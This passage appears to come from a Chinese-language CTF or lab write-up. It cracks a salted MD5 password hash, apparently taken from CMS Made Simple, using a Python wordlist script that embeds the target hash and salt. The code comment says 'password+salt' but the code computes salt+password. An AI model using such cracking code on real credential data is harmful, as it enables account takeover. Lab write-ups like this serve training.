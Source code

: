 由于密码是**MD5**加密的，而且已经有盐值了，尝试解密一下。

注意！！！！！！！！！！

这里有个坑，就是密码不在**rockyou.txt**中。比较粗暴的方法就是，把所有密码字典整合到一个里面进行跑。

![](./images/image-233.png)

上图应该是我之前在**Github**上找的字典。整合可以让**AI**给出代码，这里我就不写了。

```
import hashlib

# 目标哈希值和盐
target_hash = "7c21f3b3cace708d3e270b44dd40d522"  # 你提取到的哈希
salt = "711c5b8581584acc"  # 你提取到的盐
wordlist_path = "/usr/share/SecLists/Passwords/clean_passwords.txt"  # 本地密码字典路径

def crack_md5_hash(target_hash, salt, wordlist_path):
    try:
        with open(wordlist_path, "r", encoding="latin-1") as file:
            for password in file:
                password = password.strip()
                salted_password = salt+ password  # CMS Made Simple 使用 "密码+盐" 方式
                hashed_password = hashlib.md5(salted_password.encode()).hexdigest()
                
                if hashed_password == target_hash:
                    print(f"[+] 密码破解成功！密码是: {password}")
                    return
                
        print("[-] 未能找到匹配的密码，请尝试更大的字典。")
    
    except FileNotFoundError:
        print(f"[-] 无法找到字典文件: {wordlist_path}")
    except Exception as e:
        print(f"[-] 发生错误: {e}")

# 执行破解
crack_md5_hash(target_hash, salt, wordlist_path)
```

![](./images/image-234.png)
